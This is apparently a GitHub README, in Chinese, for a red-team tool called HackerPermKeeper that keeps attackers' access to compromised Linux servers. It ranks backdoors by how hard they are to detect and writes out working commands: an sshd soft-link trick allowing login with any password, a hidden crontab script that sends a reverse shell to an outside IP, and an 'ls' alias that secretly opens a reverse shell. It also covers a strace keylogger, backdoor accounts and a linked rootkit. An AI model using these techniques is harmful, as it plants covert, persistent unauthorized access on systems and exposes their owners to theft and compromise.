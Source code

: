 # :lock:	HackerPermKeeper  
### 黑客权限保持者
<br/><br/>
  <p align="center">
    <a href="https://www.one-fox.cn/">
      <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%AE%89%E5%85%A8%E5%9B%A2%E9%98%9F-One--fox-pink" />
    </a>
    <a href="https://taoyuan.cool/">
      <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%8D%9A%E5%AE%A2-taoyuan.cool-blue" />
    </a>
    <a href="[#](https://taoyuan.cool/)">
      <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E4%BD%9C%E8%80%85-%E5%BC%B1%E9%B8%A1-red" />
    </a>
    <img src="https://img.shields.io/badge/WeChat-vivo50KFCKFC-black">
    <img src="https://badgen.net/github/stars/ytMuCheng/HackerPermKeeper/?icon=github&color=black">
</p>




通过渗透拿到权限之后，为了不让权限丢失，都会进行权限维持，而在进行权限维持的时候，红队需要花费大量的时候，来验证是否合适，因此在这款工具就诞生 HackerPermKeeper[黑客权限保持者] 



| :lock:权限维持模块                 | centos | Ubuntu | 推荐指数 | 备注                                                         |
| :--------------------------- | ------ | ------ | -------- | ------------------------------------------------------------ |
| OpenSSH后门万能密码&记录密码 |   :x:      |:heavy_check_mark:	    |:star:	        | 此后门需要很老的内核版本，而且需要很多依赖环境               |
| PAM后门                      | :x:     | :x:     | :star:	        | 此后门需要很老的内核版本，而且需要很多依赖环境               |
| SSH软链接                    | :heavy_check_mark:	    | :heavy_check_mark:	   | :star:	:star:	       | 容易被发现                                                   |
| ssh公私密钥                  | :heavy_check_mark:	    | :heavy_check_mark:	    | :star:	:star:	:star:	:star:	:star:	    | 发现程度很难，参考了挖矿病毒                                 |
| 后门帐号                     | :heavy_check_mark:	    | :heavy_check_mark:	    | :star:	:star:	:star:	      | 用命令添加账户，不会创建用户home目录[有一个是直接指向root目录] |
| crontab计划任务              | :heavy_check_mark:	   | :heavy_check_mark:	   | :star:	:star:	:star:	:star:	     | 难以发现，通过执行计划任务                                   |
| Strace后门                   |:heavy_check_mark:	    | :heavy_check_mark:	    | :star:	:star:	       | 键盘记录的后门                                               |
| Alias后门                    | :heavy_check_mark:	    | :heavy_check_mark:	   | :star:	:star:	:star:	:star:	     | 别名后门，难以发现，但是需要用户去执行命令                   |
| Rootkit后门                  | :x:     | :x:    | :star:	:star:	:star:	      | 难以发现，但是安装复杂，而且指定内核版本                     |

## :rocket:快速使用
```
安装依赖
pip install -r requirements.txt
```
![image](https://github.com/ytMuCheng/HackerPermKeeper/assets/79234113/1d4af51c-dfbe-484e-b70f-009214a4635c)

```
快速判断目标机器适合的权限维持模块
```

## :triangular_flag_on_post:	常见后门介绍
```
OpenSSH后门万能密码&记录密码（这个需要依赖环境），就是把对方的门换个锁，但是原来的钥匙也可以使用
发现程度：||

PAM后门，PAM是一个Linux登录验证的认证服务，修改其中关于ssh登录的验证，添加一个万能密码，已经记录的账号密码位置（类似把对方房间内有内鬼）
发现程度：||


SSH软链接
cat /etc/ssh/sshd_config|grep UsePAM
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
ssh root@xx.xx.xx.xx -p 8888 任意密码登录即可
发现程度：||||||


公私钥
使用密钥进行登录
发现程度：||||||


后门帐号
使用命令添加账号
发现程度：||||||


crontab后计划任务
1、编辑后门反弹
vim /etc/.111.sh

#!/bin/bash
sh -i >& /dev/tcp/192.168.86.137/3434 0>&1

chmod +x /etc/.111.sh

2、添加定时任务
vim /etc/crontab
*/1 * * * * root /etc/.1111.sh
发现程度：||||||


Strace后门
strace是一个动态跟踪工具，它可以跟踪系统调用的执行。
我们可以把他当成一个键盘记录的后门，来扩大我们的信息收集范围
可以记录ssh明文和密钥（登录的）和Rootkit配合一起
发现程度：||||

命令自定义-Alias后门
alias命令的功能：为命令设置别名
alias ls='alerts(){ ls $* --color=auto;bash -i >& /dev/tcp/192.168.86.137/3333 0>&1; };alerts'
执行ls就会反弹shell
持久化+隐藏：重启依旧生效
发现程度：||||

Rootkit后门
https://github.com/f0rb1dd3n/Reptile/releases/
Rootkit是一种特殊的恶意软件，它的功能是在安装目标上隐藏自身及指定的文件、进程和网络链接等信息，比较多见到的是Rootkit一般都和木马、后门等其他恶意程序结合使用。
发现程度：||
但是使用工具进行检测出来情况很大，建议看代码，手动编写此工具（难度很大）


|||||  越多，越容易发发现
||        越少，越难发现，但是部署起来，需要的依赖很多

```





## :star2:Stargazers over time [![Stargazers over time](https://starchart.cc/ytMuCheng/HackerPermKeeper.svg)](https://starchart.cc/ytMuCheng/HackerPermKeeper) 




<a href="https://github.com/ytMuCheng">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api?username=ytMuCheng"/>
</a>
<a href="https://github.com/ytMuCheng/HackerPermKeeper/">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api/top-langs?username=ytMuCheng&layout=compact&langs_count=8&card_width=320" />
</a>
